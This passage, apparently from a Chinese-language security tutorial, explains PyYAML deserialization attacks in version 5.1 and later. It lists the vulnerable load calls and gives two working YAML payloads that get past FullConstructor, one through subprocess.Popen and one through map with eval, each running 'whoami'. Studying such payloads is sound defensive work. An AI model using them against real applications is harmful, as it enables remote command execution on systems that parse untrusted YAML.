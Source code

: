 ###### 版本大于等于5.1

\####### 常规利用方式
 利用条件：

- 使用的构造器是

  ```
  UnsafeConstructor
  ```

  或者

  ```
  Constructor
  ```

  - 对应的顶层调用方式为     
    - yaml.unsafe_load(exp)
    - yaml.unsafe_load_all(exp)
    - yaml.load(exp, Loader=UnsafeLoader)
    - yaml.load(exp, Loader=Loader)
    - yaml.load_all(exp, Loader=UnsafeLoader)
    - yaml.load_all(exp, Loader=Loader)
  - 常规利用方式和5.1版本之前的一样
    \####### 突破FullConstructor
    利用环境：

- 使用的构造器是`FullConstructor`

- 如果常规利用失败再使用这种

`FullConstructor`中，限制了只允许加载`sys.modules`中的模块：

- 只引用，不执行的限制：   
  - 加载进来的`module`必须是位于`sys.modules`中
- 引用并执行：   
  - 加载进来的`module`必须是位于`sys.modules`中
  - `FullConstructor`下，`unsafe = False`，加载进来的`module.name`必须是一个类

恰好有这么一个类`subprocess.Popen`，刚好在`FullConstructor`的`sys.modules`中，同时还有一个类`popen`可以执行命令

```python
yaml.load("""
!!python/object/apply:subprocess.Popen
  - whoami
""")
1234
```

除此之外，还有`map`可以引发函数执行：

```python
# tuple可替换为frozenset或者bytes
# !!python/name引入函数
yaml.load("""
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').system('whoami')"]
""")
12345678
```
